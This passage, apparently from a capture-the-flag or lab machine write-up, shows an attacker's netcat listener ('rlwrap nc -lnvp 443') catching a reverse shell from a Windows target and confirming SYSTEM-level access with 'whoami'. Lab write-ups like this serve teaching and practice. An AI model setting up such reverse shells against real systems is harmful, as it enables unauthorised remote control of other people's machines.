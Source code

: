 

Back at `nc`, I've got a shell as system:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:54454.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.

    c:\ProgramData>whoami
    nt authority\system







